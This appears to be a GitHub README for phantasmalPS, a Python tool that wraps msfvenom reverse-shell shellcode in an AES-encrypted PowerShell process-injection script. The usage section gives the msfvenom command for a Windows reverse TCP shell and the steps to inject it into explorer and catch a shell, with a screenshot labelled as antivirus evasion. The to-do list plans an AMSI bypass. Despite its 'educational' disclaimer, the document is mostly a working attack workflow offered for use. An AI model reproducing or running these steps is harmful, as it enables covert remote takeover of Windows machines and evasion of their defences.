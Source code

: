 # phantasmalPS
This Python script generates a PowerShell Process Injection script with AES encrypted shellcode.

## Disclaimer
This repository is for educational purposes only. Do not use on computers or endpoints without authorization. I am not responsible for any damages you may cause. Use it at your own discretion.



## Simple Usage:
Let's start with installing the required libraries:
```python
pip3 install -r requirements.txt
```
```bash
python3 phantasmalPS.py -h
```
![Help](Images/phantasmalPS-help.png)

First generate a shellcode within your favorite C2 framework:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport 8443 -f ps1 -o shell
```
Let phantasmalPS do its magic:
```bash
python3 phantasmalPS.py -f shell -p explorer
```
![Run](Images/run-phantasmalPS.png)

It generates a PowerShell file called "simplescript.ps1" n the same directory you downloaded phantasmalPS.py:
```bash
ls -l simplescript.ps1
```
![Attack](Images/file-check.png)

Now, transfer the PowerShell script to a Windows machine and get a shell back:

![Reverse Shell](Images/AV-evasion.png)

Thank you

## To-Do
- Add Amsi bypass
- Add more injection techniques
- Add more payload encryption techniques
